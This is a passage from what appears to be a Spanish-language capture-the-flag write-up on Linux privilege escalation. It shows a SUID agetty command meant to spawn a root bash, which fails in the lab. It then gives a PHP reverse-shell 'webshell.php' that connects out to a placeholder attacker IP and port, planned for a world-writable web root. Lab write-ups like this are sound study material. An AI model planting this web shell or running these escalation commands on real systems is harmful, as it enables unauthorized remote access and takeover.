 Vemos una cosa interesante y es la siguiente linea:

```
134626  64 -rwsrws---   1 root   peter    64744 Jan 10  2019 /usr/sbin/agetty
```

Vemos que ese no es muy comun y si buscamos informacion de si tuviera alguna vulnerabilidad la encontraremos.

```shell
/usr/sbin/agetty -o -p -l /bin/bash -a root tty
```

Con esto deberiamos de ser `root`, pero si lo ejecutamos aparecera lo siguiente:

```
bash: /usr/sbin/agetty: Permission denied
```

Por lo que vemos no nos deja, ya que vemos que con este usuario poco podemos hacer, tendremos que ver el intentar escalar a otro usuario, pero al no ver opciones posibles vamos a meternos con el usuario `www-data` a ver si tiene algunos permisos mal configurados o algo por el estilo con el que podamos escalar.

## Escalate user www-data

Vamos a crear un `webshell.php` para podernos generar una `reverse shell`.

> NOTA

Utilizamos `PHP` ya que vemos que en el servidor esta instalado y se esta interpretando de forma correcta.

```shell
php -version
```

Info:

```
PHP 7.3.19-1~deb10u1 (cli) (built: Jul  5 2020 06:46:45) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.3.19, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.3.19-1~deb10u1, Copyright (c) 1999-2018, by Zend Technologies
```

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora nos vamos a dirigir a la siguiente ruta `/var/www/html` a parte si vamos ahi veremos una cosa interesante de permisos:

```
drwxrwxrwx  2 root root 4096 Nov 26  2020 html
```
